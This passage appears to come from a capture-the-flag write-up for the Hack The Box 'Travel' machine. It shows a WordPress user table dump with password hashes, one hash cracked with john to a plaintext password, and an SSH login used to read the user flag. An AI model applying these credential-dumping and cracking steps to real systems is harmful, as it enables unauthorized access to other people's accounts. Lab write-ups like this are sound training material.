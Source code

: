```bash
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/ | admin         | admin@travel.htb | http://localhost | |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.001 sec)
```
After attempting to try and crack it it didnt crack. Turns out it cant and this part was not needed but i thought i would share it anyway.
After some more enumeration we come accross an sql  file, we cat this and find credentials inside
```sql
LOCK TABLES `wp_users` WRITE;
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```
A hash yay.
This however does indeed crack with john and we get the password `1stepcloser`
so we now have the credentials `lynik-admin:1stepcloser`

# User.txt

And we manage to login in ssh and read the user flag.
```bash
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/travel]
└──╼ $ ssh lynik-admin@travel.htb
lynik-admin@travel.htb's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Wed 09 Sep 2020 04:32:14 PM UTC

  System load:                      0.06
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     12%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

Last login: Wed Sep  9 16:31:53 2020 from 10.10.14.14
lynik-admin@travel:~$ cat user.txt
b349da48ec0{...}
```
